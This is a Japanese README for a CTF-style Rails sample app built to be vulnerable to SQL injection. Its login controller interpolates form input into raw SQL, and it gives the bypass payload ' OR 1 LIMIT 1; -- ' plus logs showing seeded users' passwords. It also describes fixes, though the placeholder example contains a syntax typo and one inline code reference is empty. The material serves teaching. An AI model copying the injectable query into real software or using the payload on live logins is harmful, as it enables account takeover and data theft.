 # Ruby On Rails SQLi 

Railsを用いてSQLiに脆弱なサンプルアプリを作ってみました。

CTF形式となっておりますので、ローカルで本アプリを立ち上げてFLAGを獲得してください。

## 実行方法

```
$ docker-compose up
```

## TL;DR

```
' OR 1 LIMIT 1; -- '
```

## Railsとは？

MVCアーキテクチャに基づいて設計されたWebアプリケーションフレームワーク

ControllerにあたるAction Controller、
ViewにあたるAction View、
ModelにあたるActive Recordが担当

Railsの理念

- 設定より規約（Convention over configuration; CoC）
- DRY（Don't Repeat Yourself）
- REST（Representational State Transfer）

## Railsの仕組み

Railsアプリに対してアクセスが来たとき、RailsはどのURIにどのHTTPメソッドが来たかを判別し、[routes.rb](./config/routes.rb)を参照しながら適切なコントローラーを呼び出します。

```
  get 'ror/index'
```

とあるので、[ror_controller.rb](./controllers/ror_controller.rb)のindex関数によって処理されることが定義されています。

さて、index関数は何も書いていない空の関数です。

この場合、アプリは[index.html.erb](./ror/views/index.html.erb)の中身をすぐに用意します。

このerbファイルからHTMLが作成され、ユーザーに表示されるという仕組みなっております。

index.html.erbを眺めてみましょう。

```
<html>
  <head>
    <title>Login</title>
  </head>
  <body>
    <h1>Login</h1>
    <%= form_tag("/ror/login", method: "post") do %>
        <%= label_tag(:nickname, "Nickname:") %>
        <%= text_field_tag(:nickname) %>
        <br>
        <%= label_tag(:password, "Password:") %>
        <%= text_field_tag(:password) %>
        <%= submit_tag("Submit") %>
      <% end %>

    <p>Time: <%= Time.current %></p>
  </body>
</html>
```

ユーザの入力を受け付けるRailsのAction Viewのフォームヘルパー```form_tag```、```label_tag```などがあります。

注目すべきは、``` ```という表記で、この書き方でユーザーの入力を受け取るのは脆弱とされています。

さて、上記コードによって```/ror/login```というURIにニックネームとパスワードの情報がpostされますが、routingを確認してみるとは[ror_controller.rb](./controllers/ror_controller.rb)のlogin関数によって処理されることが定義されています。

login関数は以下のようになっております。

```
  def login

    con = ActiveRecord::Base.connection
    result = con.select_all("SELECT * FROM users WHERE nickname = '#{params[:nickname]}' AND password = '#{params[:password]}'")

    if result.to_a.size == 1
      render plain: 'FLAG{dummy_flag}'
      return
    end

    render plain: 'Login Failed'
  end
```

生SQLを発行していることが分かります。

SQLはニックネームとパスワードが一致するユーザーをSELECTしているようです。

ログインの成功条件としては、SQLの結果が1件取れた場合にログイン成功となりFLAGを返しているようです。

## 解法

NicknameかPasswordに

```
' OR 1 LIMIT 1; -- '
```

を入力するとログインを突破し、Flagを手に入れることができます。

ちなみに、

```
' OR 1; -- '
```

だと、```Login Failed```となってしまうが、これはもちろん、result.to_a.sizeが3になってしまうからである。

このときのWeb側のログを見ると、

```
(1.3ms)  SELECT * FROM users WHERE nickname = '' OR 1; -- '' AND password = '1'
web_1  |   ↳ app/controllers/ror_controller.rb:10:in `login'
web_1  | {"id"=>"08d9a2ad-dab1-44eb-9728-db8019921c1d", "nickname"=>"ゼニガメ", "email"=>"zenigame@pokemon.ac.jp", "password"=>"Mjs0Bmiv2", "age"=>20, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
web_1  | {"id"=>"83aee8fd-11b4-4298-9c4b-0f5483b3115f", "nickname"=>"ヒトカゲ", "email"=>"hitokage@pokemon.ac.jp", "password"=>"FgkmcSFk2i", "age"=>20, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
web_1  | {"id"=>"e8077e6c-0d14-466c-8300-6b7975b95442", "nickname"=>"フシギダネ", "email"=>"fushigidane@pokemon.ac.jp", "password"=>"m3bChIrNov", "age"=>5, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
```

となるため、SQL文は正しく発行されていることが分かります。

ログイン条件を正にするためには、検索結果を一件のみに絞らせる必要があります。

## 対策方法

発行するSQLの中に変数が入ってくる場合、プレースホルダで書くことが望ましいです。

問題となったSQLはプレースホルダで書くと

```
result = con.select_all("SELECT * FROM users WHERE nickname = ? AND password = ?", "#{params[:nickname]}", "#{params{:password}}")
```

となります。

RailsにはActiveRecordという強力なO/Rマッパーが用意されているので、それを使いましょう。

今回の場合だと、where句を用いることができます。

```
result = User.where(nickname: params[:nickname], password: params[:password])
```

ログイン機能を作る際はdeviseというGemを利用するのが一般的

Gemとは、Rubyで書かれたプログラムをパッケージ化したもので、通常Bundlerを用いてGemを管理します。（Pythonでいうところのpipのようなものです。）

deviseを用いることで、会員登録・ログイン・パスワード変更機能なども容易に作成でき、セッションの確保・破棄、サインイン回数やサインイン時間やIPアドレスなども記録できます。

## データベースの中身を見てみたい方へ（Rails初学者向け）

Railsでは、rails consoleという便利なツールを使ってデータベースの中身を確認できます。

今回の問題では、以下のように```rails c```で立ち上げて、```User.all```と打つだけです。

```
$ docker exec -it ror_sqlis_web_1 bash
root@9f42995292fd:/myapp# rails c
Running via Spring preloader in process 65
Loading development environment (Rails 6.1.0)
irb(main):001:0> User.all
  User Load (0.6ms)  SELECT `users`.* FROM `users` /* loading for inspect */ LIMIT 11
=> #<ActiveRecord::Relation [#<User id: "41fc1773-da9f-4075-9dd1-0d387e459267", nickname: "フシギダネ", email: "fushigidane@au.com", password: [FILTERED], age: 5, created_at: "2021-01-11 23:50:19.389070000 +0000", updated_at: "2021-01-11 23:50:19.389070000 +0000">, #<User id: "b3b637cb-aae0-41aa-b872-e5f074456df1", nickname: "WaniHackase", email: "waniwani@waniwani.ac.jp", password: [FILTERED], age: 20, created_at: "2021-01-11 23:50:19.403612000 +0000", updated_at: "2021-01-11 23:50:19.403612000 +0000">]>
```



